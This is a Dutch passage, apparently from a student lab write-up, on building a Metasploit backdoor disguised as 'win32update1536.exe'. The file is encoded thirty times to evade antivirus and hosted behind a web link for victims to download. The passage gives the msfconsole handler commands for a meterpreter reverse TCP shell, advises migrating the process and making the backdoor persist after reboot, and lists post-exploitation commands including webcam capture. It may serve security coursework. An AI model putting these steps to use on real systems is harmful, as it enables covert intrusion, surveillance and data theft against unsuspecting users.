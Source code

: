 De '-e' staat voor enconding, d.m.v. de '-i 30' specifieren dat we de .exe 30 keer encoderen. Zo wordt de exploit moeilijker vindbaar voor virusscaners. Tegenwoordig (vanaf +- 2010, tijd gaat zo snel) zal dit niet meer voldoende zijn. Je kunt echter wel een paar lagen van ecnyptie toevoegen aan het bestand. We hebben dit niet gedaan, maar er zijn hier genoeg tuturials te vinden op het internet.

De *"-t echo"* specifiert dat er een .exe moet uit komen. We geven onze backdoor een naam dit doen we d.m.v. *'-f win32update1536.exe"*.

We hebben geen poort ingesteld, dit betekend dat we gebruik maken van de standaard poort 4444. Je kunt trouwens zien bij elke backdoor welke informatie verplicht moet ingesteld worden d.m.v. het commando *"info"*. Bij ons was enkel LHOST verplicht (eigen IP adres van de hacker).

Bron:
- [Forum met uitleg](https://evilzone.org/tutorials/metasploit-payload-tutorial/)
- [Officiële documentatie](https://www.offensive-security.com/metasploit-unleashed/generating-payloads/)

Nu we onze backdoor gemaakt hebben (ons gegeneerd .exe bestand) plaatsen we deze in de /var/www/html/ map. We vullen als path voor onze link (href) de naam van de backdoor in. Wij hebben deze win32update1536.exe genoemd. Indien je nu klikt op de link zal je de file downloaden.

We moeten nu onze metasploit zo instellen dat we luisteren naar onze backdoor. 

> msfconsole </br>
> use explout/multi/handler </br>
> set PAYLOAD windows/meterpreter/reverse_tcp </br>
> set LHOST 192.168.2.18 </br>
> exploit


Ik heb geen poort ingesteld omdat we de standaard poort gebruikt hebben (4444). Vanaf nu luisteren we naar binnenkomende response van onze backdoor. We wachten dus tot iemand de file download.

Ik test het uit. Je ziet dat de metasploit console reageert, maar hij kan geen meterpreter sessie starten. (Niets gaat van de 1ste keer). De fout was zeer bizar. De sessie starte maar stopte een paar minuten later van een timeout (EOFError). Ik kon maar één link vinden met een gelijkaardig probleem [LINK](https://community.rapid7.com/thread/2796). Maar de suggesties loste het probleem niet op.

![Error](http://i.imgur.com/v4dnrQV.jpg)

Na een paar keer proberen had ik een andere "error". Hij bleef hangen op "sending stage metasploit"... Dit probleem kwam frequenter voor op google. Maar ook hier vond ik niets dat van toepassing is van mijn probleem. Na een paar keer proberen werkte het uit het niets ineens. (Kali dacht waarschijnlijk dat ik tijd teveel heb). Ach ja ik mag niet klagen het werkt! We hebben een meterpreter sessie!

![Meterpreter](http://i.imgur.com/tIUmhxs.jpg)

Zo vanaf nu kunnen we alles wat we met metasploit kunnen, uitvoeren. Het eerste wat je best doet is de backdoor "verplaatsen" naar een andere .exe (migrate). Zie gast sessie (Ernst & Young). Je zorgt er best ook voor dat je de backdoor automatisch wordt uitgevoerd nadat Windows herstart wordt, anders moet hij de file terug downloaden voor je toegang kunt krijgen.

We hebben hierna wat rond gespeeld met Metasploit. Wat basis commando's:
* download => Bestand downoaden op victim
* getuid => Kijken als welke "gebruiker" onze backdoor runt
* ipconfig => ipconfig uitvoeren op victim
* ps => "Taakbeheer", kijken welke programma's er uitgevoerd worden op de victim
* webcam_snap => Foto nemen via webcam. Kreeg de drivers niet werkend op Windows XP (jammeeuuurr)
